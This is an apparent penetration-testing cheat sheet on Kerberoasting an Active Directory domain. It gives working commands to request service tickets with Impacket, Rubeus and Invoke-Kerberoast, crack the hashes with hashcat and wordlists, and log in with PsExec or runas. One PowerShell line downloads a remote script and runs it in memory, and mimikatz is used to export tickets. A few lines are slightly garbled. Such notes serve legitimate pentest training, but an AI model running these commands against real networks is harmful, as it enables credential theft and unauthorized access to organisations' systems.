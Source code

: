 ```
impacket-GetUserSPNs -request -dc-ip <IP> -hashes <hash_machine_account>:<hash_machine_account> <domain>/<machine_name$> -outputfile hashes.kerberoast
```
or
```
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath 'c:\temp\hashcapture.txt' -width 8000
```

```
hashcat -a 0 -m 13100 ok.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
```
.\PsExec.exe -u <domain>\<user> -p <password> cmd.exe
```
or  
```
runas /user:<hostname>\<user> cmd.exe
```

### On Windows
- Method 1 (Reubeus)
```bash
#automatically find kerberoastable users in targeted Domain and transfer the output hash to kali
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

#on kali, see hash contain to identify the hash type
cat hashes.kerberoast

#find the corresponding hash type number in hashcat
hashcat --help | grep -i "Kerberos"

#crack hash using hashcat 13100, TGS-REP, output is plaintext password of kerberoastable account
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

- Method 2
```bash
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

# cracking TGS hashes
hashcat -m 13100 kerb-Hash0.txt wordlist.txt --force
OR
hashcat64.exe -m 13100 "C:\Users\test\Documents\Kerb1.txt" C:\Users\test\Documents\Wordlists\Rocktastic12a --outfile="C:\Users\test\Documents\CrackedKerb1.txt"
```

- Method 3
```bash
#get SPN that you want to target
impacket-GetUserSPNs exam.com/apachesvc -dc-ip 172.16.1xx.100

#requesting TGS ticket, i.e. .kirbi
PS C:\Users\offsec> Add-Type -AssemblyName System. IdentityModel
PS C:\Users\offsec> New-Object System. IdentityModel. Tokens. KerberosRequestorSecurityToken -ArgumentList 'SPN'
        PS C:\Users\offsec> New-Object System. IdentityModel. Tokens. KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
mimikatz # kerberos :: list /export

#crack hash using tgsrepcrack.py
```